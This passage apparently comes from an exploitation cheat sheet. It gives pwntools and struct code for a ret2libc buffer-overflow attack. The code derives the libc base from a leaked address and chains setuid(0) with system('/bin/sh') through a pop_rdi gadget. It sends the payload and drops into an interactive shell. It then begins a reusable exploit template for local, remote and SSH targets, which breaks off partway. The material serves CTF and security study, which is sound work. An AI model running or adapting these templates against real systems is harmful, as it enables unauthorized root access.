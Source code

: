 ```python
leaked_printing_func = 0x[...]

libc_printing_func = <ADR_LIBC_PRINTING_FUNC>
libc_system = <ADR_LIBC_SYSTEM>
libc_sh = <ADR_LIBC_SH>

libc_base = leaked_printing_func - libc_printing_func

# Python built-ins
sys = struct.pack('<Q', libc_base + libc_system)
sh = struct.pack('<Q', libc_base + libc_sh)

# pwntools
sys = p64(libc_base + libc_system)
sh = p64(libc_base + libc_sh)

# setuid
libc_setuid = <ADR_LIBC_SETUID>
# Python built-ins
setuid = struct.pack('<Q', libc_base + libc_setuid)
# pwntools
setuid = p64(libc_base + libc_setuid)

payload = junk
# setuid
payload += pop_rdi + p64(0x0) + setuid
payload += pop_rdi + sh + sys

# pwntools
p.sendline(payload)
time.sleep(1)
p.interactive()
```

### pwntools final code template

The following exploit code can be used as a template to exploit ROP buffer
overflow vulnerability with `libc` address leaks:

```python
import sys
import time

from pwn import *

context(os = 'linux', arch = 'amd64')

BINARY = '<BINARY>'

OFFSET = 0

if (sys.argv[1] == 'local'):
  p = process(BINARY)
  context.log_level = 'DEBUG'

elif (sys.argv[1] == 'remote'):
  HOST = '<HOST>'
  PORT = 0 # <PORT>
  p = remote(HOST, PORT)

elif (sys.argv[1] == 'ssh'):
  HOST = '<HOST>'
  PORT = 0 # <PORT>
  USERNAME = '<USERNAME>'
```